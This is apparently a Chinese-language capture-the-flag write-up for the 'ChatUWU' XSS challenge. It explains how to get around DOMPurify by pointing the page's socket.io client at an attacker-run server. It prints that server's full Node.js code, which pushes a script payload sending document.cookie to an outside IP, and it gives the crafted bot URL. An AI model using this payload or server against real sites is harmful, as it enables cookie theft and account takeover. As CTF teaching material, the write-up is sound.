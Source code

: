 # 题目描述

I can assure you that there is no XSS on the server! You will find the flag in admin's cookie.

Challenge: http://47.254.28.30:58000

XSS Bot: http://47.254.28.30:13337

# 解决方案

直接发送XSS payload会被DOMPurify过滤，无法绕过；然后观察到index.html中有一句源码为`socket = io(`/${location.search}`)`，因此解决思路是自己搭建socket io服务器，然后发送XSS payload，即可拿到admin的cookie，其内容即为flag，socket io服务器参考实现如下：

```javascript
const app = require('express')();
const http = require('http').Server(app);
const cors = require('cors')
const hostname = '0.0.0.0';
const port = 9000;
const io = require('socket.io')(http, {
cors: {
        origin: "*",
        methods: ["GET", "POST"],
        "preflightContinue": false
}
});

const corsOptions = {
        origin: false,
        optionsSuccessStatus: 200 
}

app.get('/', cors(corsOptions), (req, res) => {
console.log(req.query)
});

io.on('connection', (socket) => {
        console.log("hey from: ", socket.handshake.address)
        let {room} = socket.handshake.query;
        socket.join(room);
        io.to(room).emit('msg', {
                from: 'system',
                text: '</li></ul><script>alert(1)</script><img src=x onerror="document.location=\'http://85.244.211.240:9000/?\'+document.cookie;">',
                isHtml: true
        });
});

http.listen(port, hostname, () => {
        console.log(`ChatUWU malicious server running at http://${hostname}:${port}/`);
});
```

其中IP地址85.244.211.240需改为自己服务器的地址，然后在XSS Bot上填写admin访问的地址`http://47.254.28.30:58000/?room=DOMPurify&nickname=guest5279@85.244.211.240:9000`，即可在自己的服务器上收到admin的cookie。
